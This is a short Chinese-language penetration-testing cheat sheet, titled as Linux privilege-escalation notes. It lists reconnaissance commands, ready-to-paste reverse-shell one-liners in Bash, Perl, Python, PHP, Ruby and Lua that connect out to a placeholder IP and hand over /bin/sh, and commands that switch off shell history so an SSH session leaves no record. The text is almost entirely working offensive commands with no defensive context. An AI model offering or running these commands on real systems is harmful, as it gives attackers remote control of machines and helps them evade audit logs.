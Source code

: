 # GUN Linux 提权笔记

### 查看系统版本
``` sh
$ uname -a
$ cat /etc/*-release
$ cat /etc/issue
```

### Shell反弹
* **Bash反弹**
``` sh
$ bash -i >& /dev/tcp/1.2.3.4/1234 0>&1
```
* **Perl反弹**
``` sh
$ perl -e 'use Socket;$i="1.2.3.4";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

* **Python反弹**
``` sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("1.2.3.4",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

* **PHP反弹**
``` sh
$ php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
* **Ruby反弹**
``` sh
$ ruby -rsocket -e'f=TCPSocket.open("1.2.3.4",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

* **Lua反弹**
``` sh
$ lua -e "require('socket');require('os');t=socket.tcp();t:connect('1.2.3.4','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

### 登录SSH后不记录History
``` sh
$ unset HISTORY HISTFILE HISTSAVE HISTZONE HISTORY HISTLOG; export HISTFILE=/dev/null; export HISTSIZE=0; export HISTFILESIZE=0
```
